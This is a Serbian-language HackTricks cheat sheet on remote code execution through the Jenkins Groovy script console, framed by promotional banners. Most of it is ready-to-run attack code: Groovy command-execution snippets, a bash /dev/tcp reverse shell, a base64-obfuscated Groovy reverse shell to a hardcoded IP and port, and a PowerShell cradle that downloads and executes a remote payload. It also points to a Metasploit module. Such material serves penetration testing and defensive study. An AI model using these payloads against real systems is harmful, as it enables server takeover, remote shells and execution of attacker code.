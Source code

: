 # Jenkins RCE sa Groovy skriptom

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Jenkins RCE sa Groovy skriptom

Ovo je manje bučno od kreiranja novog projekta u Jenkins-u

1. Idite na _path\_jenkins/script_
2. Unesite skriptu u tekstualno polje
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Možete izvršiti komandu koristeći: `cmd.exe /c dir`

U **linuxu** možete koristiti: **`"ls /".execute().text`**

Ako trebate koristiti _navodnike_ i _jednostruke navodnike_ unutar teksta, možete koristiti _"""PAYLOAD"""_ (trostruki dvostruki navodnici) za izvršavanje payloada.

**Još jedan koristan groovy skript** je (zamijenite \[UMETNITE KOMANDU]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell u Linux-u

Reverse shell je tehnika koja omogućava hakeru da preuzme kontrolu nad udaljenim računarom putem mreže. U Linux okruženju, možete koristiti sledeći kod za uspostavljanje reverse shell-a:

```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Zamijenite `<IP>` sa IP adresom napadača i `<PORT>` sa odgovarajućim portom koji želite koristiti za komunikaciju.

Nakon što se reverse shell uspostavi, napadač će moći izvršavati komande na udaljenom računaru i preuzeti kontrolu nad njim. Ova tehnika se često koristi u pentestiranju i hakiranju, pa je važno da se koristi samo u zakonite svrhe i uz dozvolu vlasnika sistema.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Reverse shell u Windows-u

Možete pripremiti HTTP server sa PS reverse shell-om i koristiti Jeking da ga preuzme i izvrši:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Skripta

Možete automatizovati ovaj proces pomoću [**ove skripte**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Možete koristiti MSF da dobijete obrnutu ljusku:
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
